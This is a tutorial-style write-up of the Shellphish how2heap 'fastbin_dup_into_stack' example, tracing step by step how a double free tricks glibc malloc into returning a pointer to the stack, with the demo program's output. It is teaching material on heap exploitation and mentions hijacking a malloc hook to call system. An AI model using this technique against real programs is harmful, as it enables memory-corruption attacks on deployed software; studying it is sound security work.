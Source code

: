 # Shellphish how2heap fastbin_dup_into_stack

This is another section off of the Shellphish how2heap gitbhub repo, which well documents itself in addition to providing the source code for these sections. 

This time we will be using a double free to have malloc return a pointer outside of the heap and to the stack.

First we allocate three fastbins, and see the stack address we want to return:
```
1:	8 bytes:	0x556a7e74c010
2:	8 bytes:	0x556a7e74c030
3:	8 bytes:	0x556a7e74c050
stack address:	0x7fff32ecd2d8
```

First we free chunk 1 `0x556a7e74c010`. This will add it to the free list. 
```
1:	8 bytes:	0x556a7e74c010 (freed)
2:	8 bytes:	0x556a7e74c030
3:	8 bytes:	0x556a7e74c050
stack address:	0x7fff32ecd2d8
```

Next we will to free `0x556a7e74c010` again, however before we do that we will need to free another chunk because if we free a ptr that is at the top of the free list (which `0x556a7e74c010` is) the program will crash:

```
1:	8 bytes:	0x556a7e74c010 (freed)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
stack address:	0x7fff32ecd2d8
```

Now that `0x556a7e74c010` is no longer at the top of the free list, we can go ahead and free it again:
```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
stack address:	0x7fff32ecd2d8
```

So now the free list has `0x556a7e74c010`, `0x556a7e74c030`, and `0x556a7e74c010` (in that order). We can allocate two additional chunks of memory (eight bytes each), which will allow us to edit `0x556a7e74c010` while it is at the top of the free list:
```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
4:	8 bytes:	0x556a7e74c010 (points to where malloc 1 was)
5:	8 bytes:	0x556a7e74c030 (points to where malloc 2 was)
stack address:	0x7fff32ecd2d8
```

Now that we have `0x556a7e74c010` allocated while it is also at the top of the free list, we can make the fake chunk. In order to do this, we will need `0x556a7e74c010` to start with the stack address we want to write to `0x7fff32ecd2d8 - 0x10 = 0x7fff32ecd2c8`. The reason for the `-0x10` is that we need to make that much space for heap metadata, which we can't write to without exploiting a bug (so using the pointer it returns we will be able to start writing to `0x7fff32ecd2d8` right off of the bat):

```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
4:	8 bytes:	0x556a7e74c010 (points to where malloc 1 was) : contains 0x7fff32ecd2c8 
5:	8 bytes:	0x556a7e74c030 (points to where malloc 2 was)
stack address:	0x7fff32ecd2d8
```

Now that `0x556a7e74c010` points to `0x7fff32ecd2d8`, we are almost ready to make the fake chunk. The last thing that we will do is set `0x7fff32ecd2d8` equal to 0x20. The reason for this being is this will act as a free size, so malloc will think it is a free chunk and add it to the list of free chunks, which we can then allocate:

```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
4:	8 bytes:	0x556a7e74c010 (points to where malloc 1 was) : contains 0x7fff32ecd2c8 
5:	8 bytes:	0x556a7e74c030 (points to where malloc 2 was)
stack address:	0x7fff32ecd2d8 : contains 0x20
```

Next we can allocate `0x556a7e74c010` (since it is at the top of the free list), which will cause malloc to add `0x7fff32ecd2d8` to the free list:
```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
4:	8 bytes:	0x556a7e74c010 (points to where malloc 1 was) : contains 0x7fff32ecd2c8 
5:	8 bytes:	0x556a7e74c030 (points to where malloc 2 was)
6:	8 bytes:	0x556a7e74c010 
stack address:	0x7fff32ecd2d8 : contains 0x20
```

Now that `0x7fff32ecd2d8` is in the free list, we can just allocate another 8 bytes, and cause malloc to return a prt to it:
```
1:	8 bytes:	0x556a7e74c010 (freed twice)
2:	8 bytes:	0x556a7e74c030 (freed)
3:	8 bytes:	0x556a7e74c050
4:	8 bytes:	0x556a7e74c010 (points to where malloc 1 was) : contains 0x7fff32ecd2c8 
5:	8 bytes:	0x556a7e74c030 (points to where malloc 2 was)
6:	8 bytes:	0x556a7e74c010 
7:	8 bytes:	0x7fff32ecd2d8
stack address:	0x7fff32ecd2d8 : contains 0x20
```

Just like that, we returned a pointer using malloc to an area outside of the heap. This is really useful, for the fact that it can allow us to manipulate data in lots of different places (like writing over a malloc hook to call system when you run it). Below you will find an actual instance of this elf running, which also well documents and explains everything:

```
$	./fastbin_dup_into_stack 
This file extends on fastbin_dup.c by tricking malloc into
returning a pointer to a controlled location (in this case, the stack).
The address we want malloc() to return is 0x7fff32ecd2d8.
Allocating 3 buffers.
1st malloc(8): 0x556a7e74c010
2nd malloc(8): 0x556a7e74c030
3rd malloc(8): 0x556a7e74c050
Freeing the first one...
If we free 0x556a7e74c010 again, things will crash because 0x556a7e74c010 is at the top of the free list.
So, instead, we'll free 0x556a7e74c030.
Now, we can free 0x556a7e74c010 again, since it's not the head of the free list.
Now the free list has [ 0x556a7e74c010, 0x556a7e74c030, 0x556a7e74c010 ]. We'll now carry out our attack by modifying data at 0x556a7e74c010.
1st malloc(8): 0x556a7e74c010
2nd malloc(8): 0x556a7e74c030
Now the free list has [ 0x556a7e74c010 ].
Now, we have access to 0x556a7e74c010 while it remains at the head of the free list.
so now we are writing a fake free size (in this case, 0x20) to the stack,
so that malloc will think there is a free chunk there and agree to
return a pointer to it.
Now, we overwrite the first 8 bytes of the data at 0x556a7e74c010 to point right before the 0x20.
3rd malloc(8): 0x556a7e74c010, putting the stack address on the free list
4th malloc(8): 0x7fff32ecd2d8
```
